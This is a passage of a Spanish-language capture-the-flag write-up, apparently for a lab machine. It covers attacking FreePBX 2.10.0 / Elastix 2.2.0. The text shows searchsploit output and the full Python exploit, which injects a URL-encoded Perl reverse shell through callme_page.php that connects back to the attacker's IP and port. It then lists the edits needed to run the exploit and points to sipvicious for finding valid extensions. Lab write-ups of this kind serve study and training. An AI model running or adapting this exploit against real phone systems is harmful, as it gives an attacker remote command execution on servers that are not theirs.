 # FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution [Path #5]

Como sabemos que FreePBX está funcionando en este servidor, podemos probar este POC:

```shell
❯ searchsploit elastix freepbx
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                                   | php/webapps/18650.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Mirando el exploit podemos ver un payload:

```python
import urllib
import ssl
rhost="10.10.10.7" # add the target IP
lhost="10.10.16.3" # add your IP
lport=443 # change the port
extension="1000" # change the extension number with a valid number

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)
```

Tenemos que modificar lo siguiente:
- Cambiar la IP del Host Remoto por la IP de destino
- Cambiar la IP del Host Local por la nuestra.
- Cambiar el puerto de escucha (¡si quieres!)
- Cambiar el número de extensión por un número válido


Podemos utilizar el script python de sipvicious svwar para encontrar números de extensiones válidos:
![sipvicious github](https://github.com/EnableSecurity/sipvicious/)
